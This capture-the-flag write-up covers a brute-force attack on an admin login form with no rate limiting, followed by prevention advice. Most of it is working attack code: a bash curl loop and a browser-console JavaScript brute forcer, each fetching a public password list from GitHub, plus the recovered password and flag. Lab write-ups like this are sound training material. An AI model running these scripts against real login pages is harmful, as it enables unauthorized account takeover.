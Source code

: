 # Brute Force Authentication Vulnerability

## Overview
The login form at `/?page=signin` is vulnerable to brute force attacks, allowing attackers to guess admin credentials with no rate limiting.

---

## How It Works

1. **Finding the Target:**  
   In a previous breach, we gained access to the members page, which revealed that "admin" is a valid username.
2. **Attack:**  
   Login requests are sent like this:
   ```
   /?page=signin&username=admin&password=<PASSWORD>&Login=Login
   ```
   A failed login shows "WrongAnswer.gif".

---

## Exploitation Methods

### **Method 1: Bash Script with Password List**

- Download a password list from GitHub:
  ```bash
  wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Common-Credentials/10-million-password-list-top-1000.txt -O pwdlist.txt
  ```
- Use this brute force loop:
  ```bash
  for pwd in $(cat pwdlist.txt); do
    resp=$(curl -s "http://<IP_ADDRESS>/?page=signin&username=admin&password=$pwd&Login=Login")
    if [[ "$resp" == *"The flag is :"* ]]; then
      flag=$(echo "$resp" | awk -F 'The flag is :' '{print $2}' | head -n1 | cut -c2-65)
      echo "Success! Username: admin | Password: $pwd | Flag: $flag"
      break
    fi
  done
  ```
- Password `shadow` is found to work.

---

### **Method 2: JavaScript in Google Chrome Console**

1. Open the login page in Chrome.
2. Open Developer Tools (F12), go to the **Console** tab.
3. Paste and run this script (it fetches the same password list from GitHub and tries each password for you):

   ```javascript
   // URL to password list on GitHub
   const passwordListUrl = 'https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Common-Credentials/10-million-password-list-top-1000.txt';

   // Format current time
   const getCurrentTime = () => {
     const now = new Date();
     return now.toISOString().split('T')[0] + ' ' + now.toTimeString().split(' ')[0];
   };

   // Try a single password
   async function tryPassword(password) {
     try {
       const timestamp = getCurrentTime();
       console.log(`[${timestamp}] Testing: "${password}"`);
       
       const url = `index.php?page=signin&username=admin&password=${encodeURIComponent(password)}&Login=Login`;
       const response = await fetch(url);
       const html = await response.text();
       
       // Check for login success (no error image)
       if (!html.includes('WrongAnswer.gif')) {
         // Extract flag if present
         const flagMatch = html.match(/The flag is : ([a-f0-9]+)/i);
         const flag = flagMatch ? flagMatch[1] : 'Not found';
         
         console.log(`✅ SUCCESS! Password: "${password}", Flag: ${flag}`);
         
         // Display flag in a box
         console.log(`
   ┌${'─'.repeat(flag.length + 10)}┐
   │  🚩 FLAG: ${flag}  │
   └${'─'.repeat(flag.length + 10)}┘
         `);
         
         return true;
       }
       return false;
     } catch (error) {
       console.log(`⚠️ Error with "${password}": ${error.message}`);
       return false;
     }
   }

   // Fetch passwords from GitHub
   async function fetchPasswords() {
     try {
       console.log(`Fetching passwords from GitHub...`);
       const response = await fetch(passwordListUrl);
       
       if (!response.ok) {
         throw new Error(`Failed to fetch: ${response.status}`);
       }
       
       const text = await response.text();
       const passwords = text.split('\n')
         .map(pwd => pwd.trim())
         .filter(pwd => pwd.length > 0);
       
       console.log(`Fetched ${passwords.length} passwords`);
       return passwords;
     } catch (error) {
       console.log(`Error fetching passwords: ${error.message}`);
       // Fallback to some basic passwords if GitHub fetch fails
       return ['admin', 'password', '123456', 'shadow', 'root'];
     }
   }

   // Test all passwords with small delay
   async function bruteForce() {
     console.log(`Starting brute force attack at ${getCurrentTime()}...`);
     
     // Get passwords from GitHub
     const passwords = await fetchPasswords();
     
     for (const password of passwords) {
       // Add small delay to avoid overwhelming server
       await new Promise(resolve => setTimeout(resolve, 30));
       
       // Stop if successful
       if (await tryPassword(password)) {
         break;
       }
     }
     
     console.log(`Brute force completed at ${getCurrentTime()}`);
   }

   // Start the brute force
   bruteForce();

   // Utility to test individual passwords
   window.testPassword = (password) => tryPassword(password);
   ```

---

## Result

- **Username:** admin  
- **Password:** shadow  
- **Flag:** `b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2`

---

## Prevention

1. **Account Lockout:** Temporarily disable accounts after multiple failures.
2. **Strong Password Policy:** Require complex, non-common passwords.
3. **MFA:** Add Multi-Factor Authentication for all users.
4. **CAPTCHA:** Use CAPTCHA after failed logins.
5. **Rate Limit:** Restrict login attempts per IP.
6. **Monitoring:** Alert on brute force patterns.

---

## Resources

- Password list source:  
  [https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-1000.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-1000.txt)
